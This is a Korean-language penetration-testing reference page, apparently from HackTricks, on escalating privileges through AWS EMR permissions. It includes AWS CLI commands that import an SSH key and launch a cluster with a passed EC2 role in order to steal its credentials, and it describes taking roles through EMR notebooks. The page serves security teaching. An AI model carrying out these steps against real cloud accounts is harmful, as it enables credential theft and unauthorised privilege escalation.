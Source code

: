 # AWS - EMR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EMR

더 많은 **EMR에 대한 정보**는 다음에서 확인하세요:

{{#ref}}
../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이 권한을 가진 공격자는 **EC2 역할을 연결하여 새로운 EMR 클러스터를 실행**하고 자격 증명을 훔치려고 시도할 수 있습니다.\
이 작업을 수행하려면 **계정에 가져온 ssh 개인 키를 알고 있거나 하나를 가져와야** 하며, **마스터 노드에서 포트 22를 열 수 있어야** 합니다(이를 위해 `--ec2-attributes` 내의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용할 수 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
**EMR 역할**이 `--service-role`에 지정되고 **ec2 역할**이 `--ec2-attributes`에 지정되는 방식을 주목하세요. 그러나 이 기술은 EC2 역할 자격 증명만 훔칠 수 있게 해줍니다(ssh를 통해 연결할 것이기 때문) 하지만 EMR IAM 역할은 훔칠 수 없습니다.

**잠재적 영향:** 지정된 EC2 서비스 역할로의 권한 상승.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이 권한으로 공격자는 **AWS 콘솔**에 가서 노트북을 생성하고 이를 통해 IAM 역할을 훔칠 수 있습니다.

> [!CAUTION]
> 노트북 인스턴스에 IAM 역할을 연결하더라도, 제 테스트에서는 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.

**잠재적 영향:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 접근하고** 이에 연결된 IAM 역할을 훔칠 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

> [!CAUTION]
> 노트북 인스턴스에 IAM 역할을 연결하더라도, 제 테스트에서는 AWS 관리 자격 증명을 훔칠 수 있었고 IAM 역할과 관련된 자격 증명은 훔칠 수 없었습니다.

**잠재적 영향:** AWS 관리 역할 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 권한 상승.

{{#include ../../../banners/hacktricks-training.md}}
